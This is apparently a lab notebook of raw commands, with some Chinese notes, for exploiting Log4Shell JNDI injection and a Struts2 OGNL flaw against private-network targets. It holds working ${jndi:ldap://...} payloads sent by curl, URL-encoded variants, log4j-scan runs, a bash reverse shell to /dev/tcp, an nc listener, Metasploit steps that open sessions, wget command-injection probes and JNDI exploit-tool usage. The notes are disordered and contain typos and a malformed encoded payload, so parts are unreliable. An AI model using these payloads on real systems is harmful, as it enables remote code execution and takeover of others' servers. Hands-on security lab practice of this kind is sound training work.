

curl -X POST http://192.168.17.128:56816/hello -d 'payload="${jndi:ldap://pnp886.dnslog.cn/exp}"'

192.168.17.128:56816 gmkf2k.dnslog.cn


192.168.17.128:25273


curl -X POST http://192.168.17.128:25273/hello -d 'payload="${jndi:ldap://usv85r.dnslog.cn/exp}"'

payload=${jndi:ldap://9eky7n.dnslog.cn/huhu}

payload=${jndi:ldap://fwvp4o.dnslog.cn}

%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f
%75%63%33%37%7a%69
%2e%64%6e%73%6c%6f%67%2e%63%6e%2f%71%71%71%7d

git glone https://github.com/fullhunt/log4j-scan
cd log4j-scan
ls -l
vim log
python3 weblogic-2019-2725.py
pip3 install -r requirements.txt
python3 log4j-sacn.py -u http://192.168.17.128:60918/hello --run-all-tests
vim log4j-scan.py
sed -i.bak 's/password"/password", "payload"/' lo4j-scan.py
#查找password字段添加payload

python3 log4j-scan.py --request-type post -u http://192.168.17.128:60918/hello

${jndi:rmi://192.168.17.128:1099/nqnwdp}

%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%39%32%2e%31%36%38%2r%31%37%2e%31%32%38%3a%31%30%39%39%2f%6e%71%6e%77%64%70%7b


http://192.168.17.128:60918/  


bash -i >& /dev/tcp/192.168.17.128/7777 0>&1

http://192.168.17.128:60918/solr/admin/cores?action=${jndi:ldap://vuly1u.dnslog.cn}


msfconsole
db_status
workspace -l
db_nmap -p 19064 192.168.17.130 -n -A
search cve-2020-17530
 use exploit/multi/http/struts2_multi_eval_ognl

 sessions -l

 set RHOSTS 192.168.17.130
 set rport 19064
 set LHOST 192.168.17.129
 exploit -j
  sessions -l


wget http://192.172.84.5 -O /tmp/result && cat /tmp/result

wget "http://192.172.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result

wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result


#### 捕获的流量数据

```
docker inspect -f '{{.State.Pid}}' 5d82a6e5e2da

nsenter -t 344158 -n

tcpdump -i eth0 -w captured_traffic.pcap
```



打开`captured_traffic.pcap`文件可以查看到所有访问到容器的数据流量。


#### 验证漏洞可利用性

构造`Poc`手动测试

访问网站 http://dnslog.cn/ 手动获取专属随机子域名``。

`payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}`

curl -X POST http://192.168.17.130:57863/hello -d payload='"${jndi:ldap://nzj62f.dnslog.cn/exp}"'


#### 漏洞利用

在攻击者主机`attacker`上下载工具，具体工具目录在文件中的`tools`目录下。

```
https://github.com/bkfish/Apache-Log4j-Learning.git
```

先在`dnslog`生成一个网址

攻击者主机`attacker`启动`7777`端口

```
nc -l -p 7777
```
______________________

192.168.17.128:9646/hello?payload=12345

```
curl -X POST http://192.168.17.128:18066 -d payload='"${jndi:ldap://ijdz9i.dnslog.cn/exp}"'
```

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```
